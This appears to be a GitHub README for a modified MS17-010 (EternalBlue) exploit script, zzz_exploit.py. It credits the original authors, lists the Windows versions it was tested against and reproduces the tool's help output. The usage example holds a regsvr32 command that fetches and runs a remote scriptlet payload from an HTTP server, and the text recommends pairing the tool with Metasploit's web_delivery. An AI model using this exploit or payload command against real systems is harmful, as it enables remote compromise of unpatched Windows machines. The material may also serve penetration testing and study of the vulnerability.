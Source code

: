 # MS17-010 zzz_exploit.py modifications
All credit goes to Worawit: https://github.com/worawit/MS17-010/

This is my personal enhancement to zzz_exploit.py. Added functionality to dynamically pass users, passwords and commands to execute within a service.

This is also heavily inspired by Korey McKinley: https://lmgsecurity.com/manually-exploiting-ms17-010/

Full credit goes to Worawit/Sleepya and Korey McKinley!

Best usage, and what I tested it with, is using the web_delivery module in metasploit. With the generated command, pass it into -c in quotes. This is also what Korey showed in his article!

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)

## Help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
My write-up: https://mez0.cc/posts/weaponised-worawit.html
